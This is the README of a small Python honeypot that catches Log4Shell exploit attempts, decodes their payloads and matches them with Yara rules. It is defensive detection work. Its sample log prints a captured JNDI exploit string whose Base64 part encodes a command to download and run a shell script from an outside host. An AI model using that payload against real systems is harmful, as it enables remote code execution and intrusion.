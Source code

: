 # log4j_catcher

Log4j exploit catcher, detect Log4Shell exploits and try to get payloads.
This is a basic python server that listen on a port and logs information when a wild log4j exploit appears

The [Phorcys](https://github.com/PiRanhaLysis/Phorcys) dependency is used to decode payload automatically and then match with Yara rules.

## Installation

```shell
pip install -r requirements.txt
```

## Running

For ports that don't require TLS
```shell
python3 detector.py [port]
```

For services with TLS it is recommended to have another component to handle the TLS protocol.
I typically run NGINX as a reverse proxy on the port 443 to forward https traffic to the honeypot.

Example:
```shell
$ sudo python3 detector.py 80
2021-12-10 23:39:59,951 INFO:Incoming connection from ('1.2.3.4', 51512)  
2021-12-10 23:40:28,997 INFO:Incoming connection from ('1.2.3.4', 37532)   
2021-12-11 03:53:36,729 INFO:Found payload jndi from ('45.137.21.9', 55378)                        
2021-12-11 03:53:36,729 INFO:URL: 45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```

Data is logged into current directory path.
